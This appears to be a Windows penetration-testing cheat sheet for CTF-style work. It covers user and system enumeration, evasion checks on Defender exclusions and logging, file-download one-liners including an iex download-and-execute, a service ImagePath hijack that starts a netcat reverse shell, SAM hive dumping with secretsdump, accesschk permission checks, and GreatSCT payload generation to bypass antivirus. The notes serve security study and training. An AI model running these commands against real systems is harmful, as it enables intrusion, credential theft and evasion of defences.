 # Commands
## User Related
```powershell
# User info
whoami /all

# User info
net user

# Show groups
net group

# Show local groups
net localgroup <groupname>

# Add user to group
net group <groupname> /add <username>

# Create account
net user <username> <password> /add

# Create account (AD)
# This will force the command to execute on the domain controller instead of the local computer
net user <username> <password> /add /domain
```

## Basic
### System
```powershell
# Shows info about system (Look whether HotFixes are applied or not)
systeminfo

# Show drives
Get-PSDrive -PSProvider FileSystem

# Show hidden data streams
dir /R

# List Defender Exclusions (Requires local admin privileges)
Get-MpPreference | select Exclusion*

# PowerShell Logging Status
[Bool](Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\Transcription' -ErrorAction SilentlyContinue).EnableTranscripting
[Bool](Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\ModuleLogging' -ErrorAction SilentlyContinue).EnableModuleLogging
[Bool](Get-ItemProperty 'HKLM:\SOFTWARE\Wow6432Node\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging' -ErrorAction SilentlyContinue).EnableScriptBlockLogging

# Download and execute files
iex(new-object net.webclient).downloadstring('remote_file')
```
### Download Files
```powershell
# Method 1
(new-object net.webclient).downloadfile(<remote_file>,<output_file>)

# Method 2
Invoke-WebRequest -Uri <source> -OutFile <output_file>

# Method 3
Import-Module BitsTransfer
Start-BitsTransfer -Source <url> -Destination <output_file>

# Method 4
certutil -urlcache -f <url> output_file<>
```

## Services
```bat
:: Get info
sc query <service>
reg query HKLM\System\CurrentControlSet\Services\<service>

:: Edit info
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\<service>" /t <type> /v <value> /d <data> /f

:: Edit ImagePath and execute netcat command (assuming nc was uploaded before)
reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\<service>" /t <type> /v ImagePath /d "nc.exe <ip> <port> -e powershell.exe" /f
```



# Directories
```bash
# Powershell history log file
C:\Users\username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# See any suspicious apps 
"C:\Program Files" or "C:\Program Files (x86)"

# Apps on old windows versions
C:\Data\Users\app

# Code policies and passwords in files
C:\Program Files\windowspowershell\modules\packagemanagement

# Config files
C:\Windows\System32\config

# AD database file location
C:\Windows\NTDS
```

## Configuration Files
Most config files can be found in `C:\Windows\System32\config`     

### Get Info From Registry Hive
```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

## Mount Windows Shares and VHD Files
The Common Internet File System (CIFS) is a network file-sharing protocol. CIFS is a form of SMB.    
```bash
mount -t cifs //<ip>/<share> <mount_dir> -o user=<username>,password=<password>
```

### Mount VHD Files
One can use `guestmount` to mount a guest filesystem on the host.     
Install with: `apt install libguestfs-tools`

```bash
guestmount --add <vhd_file> --inspector --ro <mount_dir>
```

#### References
- [https://linux.die.net/man/1/guestmount](https://linux.die.net/man/1/guestmount)



# accesschk - Enumeration
AccessChk is a command-line tool for viewing the effective permissions on files, registry keys, services, processes, kernel objects, and more. This tool will be helpful to identify whether the current user can modify files within a certain service directory.      

```bat
:: Accept eula
accesschk.exe /accepteula

:: Access to services
accesschk.exe <user> -kwsu HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services

:: Services access
accesschk.exe -uwcqv Users *
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Everyone" *

:: Weak folder permission per drive
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
accesschk.exe -uwdqs "Everyone" c:\

```    
- [Github](https://github.com/ankh2054/windows-pentest).**  


## Example usage in CTF situations
- [https://snowscan.io/htb-writeup-control/#](https://snowscan.io/htb-writeup-control/#)
- [https://steflan-security.com/windows-privilege-escalation-weak-permission/](https://steflan-security.com/windows-privilege-escalation-weak-permission/)



# AV Evasion
## GreatSCT
```sh
# Download
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Inside GreatSCT.py
```sh
use 1
list
use 9
set lhost <ip>
sel lport <port>
generate
```
Now start the listener with `msfconsole -r file.rc` and execute the xml payload with:
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```

## References
- [https://book.hacktricks.xyz/windows-hardening/av-bypass#greatsct](https://book.hacktricks.xyz/windows-hardening/av-bypass#greatsct)
- [https://github.com/GreatSCT/GreatSCT.git](https://github.com/GreatSCT/GreatSCT.git)



# Office Files
Modern `Office` documents are just zip archives with XML files so, just unzip it and look for data within the XML files.
```bash
unzip <file>
```

## oletools
```bash
# Download tools
sudo pip3 install -U oletools

# Extract macros
olevba -c <file>
```